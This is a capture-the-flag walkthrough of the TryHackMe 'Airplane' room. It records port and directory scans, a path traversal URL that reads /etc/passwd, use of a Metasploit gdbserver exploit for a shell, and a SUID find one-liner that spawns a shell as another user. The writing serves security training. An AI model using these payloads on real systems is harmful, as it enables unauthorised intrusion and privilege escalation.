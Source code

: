 <code>
  
https://tryhackme.com/r/room/airplane  

### Service Enumeration
┌──(duke㉿kali)-[~/Documents/THM_AirPlane]
└─$ nmap  -sV -p- -Pn 10.10.128.237
Starting Nmap 7.92 ( https://nmap.org ) at 2024-06-13 03:08 CDT
Nmap scan report for 10.10.128.237
Host is up (0.039s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
6048/tcp open  x11?
8000/tcp open  http-alt Werkzeug/3.0.2 Python/3.8.10

http://airplane.thm:8000/?page=index.html

┌──(duke㉿kali)-[~/Documents/THM_AirPlane]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://airplane.thm:8000 -x php,txt,html -k
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
[+] Url:                     http://airplane.thm:8000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
2024/06/13 03:20:15 Starting gobuster in directory enumeration mode
/airplane             (Status: 200) [Size: 655]

### Found Path Traversal 
http://airplane.thm:8000/?page=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd

carlos:x:1000: nothing
hudson:x:1001: get some files from home folder

### Initial Access
I found out that there is an exploit available for gdbserver, so I used the Metasploit exploit multi/gdb/gdb_server_exec. and fill all required options.

get shell as Hudson

run linpeas and

### Priv Esc
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                    
-rwsr-xr-x 1 carlos carlos 313K Feb 18  2020 /usr/bin/find     


hudson@airplane:/$ ./usr/bin/find . -exec /bin/sh -p \; -quit
./usr/bin/find . -exec /bin/sh -p \; -quit
$ id
id
uid=1001(hudson) gid=1001(hudson) euid=1000(carlos) groups=1001(hudson)

Have access to hudson home folder create own ssh key get full ssh access as **carlos**


</code>
